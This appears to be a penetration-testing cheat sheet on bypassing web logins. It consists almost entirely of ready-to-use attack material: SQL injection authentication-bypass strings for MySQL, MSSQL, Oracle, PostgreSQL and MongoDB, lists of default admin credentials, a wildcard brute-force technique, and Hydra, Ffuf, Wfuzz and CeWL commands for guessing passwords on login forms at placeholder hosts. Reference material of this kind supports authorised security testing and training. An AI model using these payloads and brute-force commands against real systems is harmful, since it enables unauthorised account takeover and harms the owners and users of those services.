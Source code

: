 ```yaml
---
title: Web Login Bypass
desc: 
tags: [Burp, Ffuf, Hydra, Login, Password, SQLi, Web, Wfuzz]
alts: [Web-Basic-Pentesting, Web-Content-Discovery]
render_with_liquid: false
---
```


## SQL Injections

```
admin' or '1'='1
```

- **Microsoft, Oracle, PostgreSQL**

    ```
    admin'--
    admin' or 1=1--
    ```

- **MySQL**

    ```
    admin'-- [need to add space after '--']
    admin'#
    admin' or 1=1#
    ```

- **Mongo**

    ```
    admin' || 1==1//
    admin' || 1==1%00
    admin' || '1==1
    ```

<br />

## Default Credentials

```sh
admin:admin
admin:password
admin:password1
admin:password123
administrator:password
administrator:password1
administrator:password123

# phpIPAM
admin:ipamadmin
Admin:ipamadmin

# PHPMyAdmin
root:(null)
root:password
```

<br />

## Wildcard Brute Force

If it is allowed to login with wildcard (*), you may be able to find the username/password with brute force.

```bash
username = *
password = *
```

For example, in Turbo Intruder (Burp Suite), login attempt with alpha numeric characters one by one.

```bash
username=%s*&password=*
# or
username=*&password=%s*
```

My favorite wordlist for it is the seclists:  
[https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/alphanum-case-extra.txt){:target="_blank"}{:rel="noopener"}

<br />

## Brute Force Credentials

1. **Prepare Wordlists**

    - **Rockyou**

        It is often located in **"/usr/share/wordlists/rockyou.txt"** in Linux.

    - **[SecLists](https://github.com/danielmiessler/SecLists){:target="_blank"}{:rel="noopener"}**

        It is often located in **"/usr/share/seclists"** in Linux.

    - **[CeWL](https://github.com/digininja/CeWL){:target="_blank"}{:rel="noopener"}**

        Generate the custom wordlist from the target web page.
    
        ```sh
        cewl https://vulnerable.com > scraped_words.txt
        ```

2. **Brute Force using Tools**

    - **Ffuf**

        ```sh
        # -fc: Filter HTTP status code
        ffuf -w passwords -X POST -d "username=admin&password=FUZZ" -u http://vulnerable.com/login -fc 401
        ```

    - **Hydra**

        ```sh
        # Cracking username
        hydra -L usernames.txt -p password vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
        # Cracking password
        hydra -l username -P passwords.txt vulnerable.com http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"

        # HTTPS (https-post-form)
        hydra -L usernames.txt -P passwords.txt vulnerable.com https-post-form "/login:username=^USER^&password=^PASS^:Username or password is incorrect"

        
        # Cracking the Authorization or WWW-Authenticate in the request header.
        hydra -L usernames.txt -P passwords.txt <target-ip> http-get
        ```

    - **Wfuzz**

        ```sh
        # Cracking username
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" https://vulnerable.com/login
        # Cracking password
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" https://vulnerable.com/login

        # -- Options --------------------------------------------------------------------------------------------

        # --hc: Hide the specific status code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --hc 302 http://vulnerable.com/login
        # --hh: Hide the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --hh 783 http://vulnerable.com/login

        # --sc: Show the specific statuc code
        wfuzz -z file,./usernames.txt -d "username=FUZZ&password=password" --sc 302 http://vulnerable.com/login
        # --sh: Show the specific chars (Content-Length)
        wfuzz -z file,./passwords.txt -d "username=admin&password=FUZZ" --sh 1214 http://vulnerable.com/login
        ```